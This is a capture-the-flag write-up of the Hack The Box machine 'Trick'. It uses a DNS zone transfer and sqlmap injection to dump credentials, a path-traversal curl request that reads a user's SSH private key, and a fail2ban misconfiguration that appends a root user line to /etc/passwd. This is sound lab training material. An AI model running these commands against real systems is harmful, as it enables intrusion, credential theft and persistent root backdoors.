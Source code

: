 ```yaml
---
description: https://app.hackthebox.com/machines/477
cover: ../../../.gitbook/assets/Trick.png
coverY: -52.59067357512954
---
```


# Trick

## Nmap

```
sudo nmap 10.10.11.166 -p- -sS -sV      

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp open  smtp    Postfix smtpd
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
80/tcp open  http    nginx 1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### DNS

Starting out on DNS we add 10.10.11.166 to our attacking systems secondary DNS servers. Performing a zone transfer with `dig` reveals the sub-domains `root.trick.htb` and `preprod-payroll.trick.htb`.

```
dig AXFR 'trick.htb' @10.10.11.166
```

![](<../../../.gitbook/assets/image (286).png>)

**Note:** Add these into `/etc/hosts.`

Browsing to [http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb) reveals the following login prompt.

![](<../../../.gitbook/assets/image (2066).png>)

**Note:** add to `/etc/hosts`.

Performing directory enumeration with dirseach reveals the `/user.php` page.

```
dirsearch -u http://preprod-payroll.trick.htb -w /usr/share/seclists/Discovery/Web-Content/Common-PHP-Filenames.txt
```

![](<../../../.gitbook/assets/image (2048).png>)

Viewing the page we find the username _Enemigosss._ We find the page buttons are not actionable.

![](<../../../.gitbook/assets/image (2053).png>)

Viewing the page source reveals come code that indicates parameters that we can use.

![](<../../../.gitbook/assets/image (2044).png>)

Testing the page parameter we are taken to a new page however, unable to action in any meaningful way further.

![](<../../../.gitbook/assets/image (2058).png>)

the `id=n` parameter could possibly be susceptible to SQL injection so we fire up `sqlmap` and command in the URL with the parameters.

Running through with the `--batch` and `--tables` parameters we are shown the users table on the payroll\_db database.

```
sqlmap -u 'http://preprod-payroll.trick.htb/manage_user.php?id=1' --batch --tables
```

![](<../../../.gitbook/assets/image (2078).png>)

We can then dump the contents of the users table.

```
sqlmap -u 'http://preprod-payroll.trick.htb/manage_user.php?id=1' --batch -T users --dump 
```

![](<../../../.gitbook/assets/image (2075).png>)

which reveals the following credentias credentials: `Enemigosss:SuperGucciRainbowCake`

Going back to the login page on [http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb) we are able to proceed with the given credentials.

![](<../../../.gitbook/assets/image (2057).png>)

We find that none of the pages provide any interesting information so we use wfuzz to fuzz for further pages.

```bash
wfuzz -b 'PHPSESSID=j7d96ocnncnp9pajveb9eqlqsg' -u "http://preprod-payroll.trick.htb/index.php?page=FUZZ" -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt --hw 504 -c
```

![](<../../../.gitbook/assets/image (2051).png>)

Finding the page [http://preprod-payroll.trick.htb/index.php?page=site\_settings](http://preprod-payroll.trick.htb/index.php?page=site\_settings) we are presented with an opportunity for file upload. However, I was not able to get this working. Viewing the requests through a proxy shows our working user does not have permission for file upload.

![](<../../../.gitbook/assets/image (2059).png>)

Looking again at the subdomain preprod-payroll we can fuzz the subdomain for other potentials domains where the word "payroll" is fuzzed which identifies "marketing".

```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://trick.htb" -H "Host: preprod-FUZZ.trick.htb" --hl 83 -v
```

![](<../../../.gitbook/assets/image (2065).png>)

Adding `preprod-marketing.trick.htb` to our hosts file we then browse to the domain and find an additional host.

![](<../../../.gitbook/assets/image (2050).png>)

Going through the available pages we find the parameter `/index.php?page=services.htm`l can likely be fuzzed for further pages or maybe even LFI.

![](<../../../.gitbook/assets/image (2070).png>)

Checking for LFI:

```
wfuzz -u "http://preprod-marketing.trick.htb/index.php?page=FUZZ" -w ~/Desktop/lfi_linux.txt --hl 0
```

![](<../../../.gitbook/assets/image (2054).png>)

We get various hits for the bypassing to read `/etc/passwd`.

![](<../../../.gitbook/assets/image (2072).png>)

Seeing that the user michael exists on the target system we fuzz for well known files and get a hit for the `id_rsa` ssh key.

```
curl 'http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa'
```

![](<../../../.gitbook/assets/image (2073).png>)

Copying the contents into `id_rsa` and using `chmod` to set the appropriate permissions. We are then able to `SSH` into the target system.

```
sudo chmod 600 id_rsa
```

![](<../../../.gitbook/assets/image (2046).png>)

Grabbing the `user.txt` flag.

![](<../../../.gitbook/assets/image (2064).png>)

Checking sudo permissions with `sudo -l`. We see we have the ability to restart the `fail2ban` service as root without specifying the root password.

![](<../../../.gitbook/assets/image (2045).png>)

Some research into privilege escalation with fail2ban. Having the ability to edit the `iptables-multiport.conf` file presents opportunity for privilege escalation.

{% embed url="https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7" %}

The user _michael_ has directory permissions over `/etc/fail2ban/action.d` which means we can replace files within the directory with our own files.

![](<../../../.gitbook/assets/image (2077).png>)

First off, copy the current contents of `iptables-multiport.conf` and make appropriate changes. Below we are setting the command to create a new root user with the password Password123.

```bash
echo 'viper:$1$luDZJMtq$4ljcR6cSb41FraIUQIiQx/:0:0:viper:/home/viper:/bin/bash' >> /etc/passwd
```

The command will be executed under "actionstart" which executes the given command for when the service starts.

![](<../../../.gitbook/assets/image (2082).png>)

The following commands then need executing in quick succession as the directory resets often.

```bash
# Delete current iptables-multiport.conf
echo y | rm iptables-multiport.conf

# create new file
touch iptables-multiport.conf

# open editor
nano iptables-multiport.conf
```

Copy the preconfigured `iptables-multiport.conf` we created earlier into the configuration file and save.

```bash
# Restart fail2ban
sudo -u root /etc/init.d/fail2ban restart
```

Wait a short while, check /etc/password and we should see our new user.

![](<../../../.gitbook/assets/image (2043).png>)

We can then use `su` to switch to our new root user. For some unknown reason during the process of changing user I was moved directly to the root user. No complaints...

![](<../../../.gitbook/assets/image (2071).png>)
